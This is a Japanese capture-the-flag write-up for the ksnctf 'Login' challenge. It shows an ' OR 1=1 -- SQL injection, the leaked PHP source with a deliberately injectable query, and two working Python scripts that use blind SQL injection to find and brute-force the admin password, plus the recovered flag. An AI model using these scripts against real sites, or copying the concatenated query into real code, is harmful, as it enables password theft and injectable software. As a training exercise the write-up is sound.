

# ksnctf: Login

**Category:** Web  
**Points:** 120pt  
**Description:**  

> http://ctfq.sweetduet.info:10080/~q6/

**Hint:**

>

## 解き方
サイトにアクセスするとadminでログインしろとの指示がある．



お決まりの`' OR 1=1 --`でSQLiを試してみるとflagは取得できないもののサーバサイドのソースコードをリークできた．flagはadminのパスワードらしい．

```html
 Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

sqliteのDBを使用しており，おそらくパスワード(flag)の長さは今までの問題からして`21`と思われる．念の為，長さを確認するスクリプトはこちら．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"

def main():
    for i in range(1, 100):
        # payload for POST
        payload = {
            "id": "admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {counter} --".format(counter=i),
            "pass": "",
        }

        # encode utf-8
        post_data = urllib.parse.urlencode(payload).encode("utf-8")
        req = urllib.request.Request(url, post_data)

        # HTTP response
        res = urllib.request.urlopen(req)
        if int(res.headers["content-length"]) > 2000:
            print("length of the password is {counter}".format(counter=i))
            break

if __name__ == "__main__":
    main()
```

adminのパスワード長をSQL文のLENGTHで取得し，一致した場合にログインが成功するSQLを繰り返し発行している．これにより`21`文字とわかったので，総当りでパスワードを探索する．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"


def main():
    for i in range(1, 22):
        # crack password with [0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_]
        for char_n in range(48, 123):
            # payload for POST
            flag = chr(char_n)
            payload = {
                "id": "admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {index}, 1) = '{char}' --".format(
                    index=i, char=flag
                ),
                "pass": "",
            }

            # encode utf-8
            post_data = urllib.parse.urlencode(payload).encode("utf-8")
            req = urllib.request.Request(url, post_data)

            # HTTP response
            res = urllib.request.urlopen(req)
            if int(res.headers["content-length"]) > 2000:
                print(flag, end="")
                break
    print()


if __name__ == "__main__":
    main()
```

`SUBSTR`を用いてadminのpassを先頭から1文字ずつ抜き出し，総当りで同じ文字が該当した場合はログイン成功とみなす処理をしている．この繰り返しでflagを取得した．この脆弱性は`Blind SQL Injection`と呼ばれ，SQLiは確かに存在するが，結果は表示されない類のものらしい．まとまった情報を取得するには，総当りなどで1bitずつ情報を繰り返し取得する必要があるとの事だった．なるほど．

#### Flag
```
FLAG_KpWa4ji3uZk6TrPK
```